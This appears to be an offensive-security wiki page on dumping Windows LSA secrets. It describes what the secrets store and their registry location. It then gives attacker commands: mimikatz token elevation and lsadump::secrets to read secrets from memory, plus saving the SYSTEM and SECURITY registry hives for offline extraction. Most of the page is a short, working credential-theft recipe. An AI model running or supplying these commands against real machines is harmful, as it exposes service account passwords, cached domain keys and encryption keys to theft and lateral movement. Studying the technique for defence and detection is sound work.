 # Dumping LSA Secrets

> #### **What is stored in LSA secrets?**
>
> Originally, the secrets contained cached domain records. Later, Windows developers expanded the application area for the storage. At this moment, they can store PC users' text passwords, service account passwords \(for example, those that must be run by a certain user to perform certain tasks\), Internet Explorer passwords, RAS connection passwords, SQL and CISCO passwords, SYSTEM account passwords, private user data like EFS encryption keys, and a lot more. For example, the _NL$KM_ secret contains the cached domain password encryption key.

## Storage

LSA Secrets are stored in registry:

```text
HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets
```

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-20-39.png)

## Execution

### Memory

Secrets can be dumped from memory like so:

{% code title="attacker@mimikatz" %}
```text
token::elevate
lsadump::secrets
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-25-01.png)

### Registry

LSA secrets can be dumped from registry hives likes so:

{% code title="attacker@victim" %}
```csharp
reg save HKLM\SYSTEM system & reg save HKLM\security security
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-37-11.png)

{% code title="attacker@mimikatz" %}
```csharp
lsadump::secrets /system:c:\temp\system /security:c:\temp\security
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-38-02.png)

## References

{% embed url="https://www.passcape.com/index.php?section=docsys&cmd=details&id=23" %}



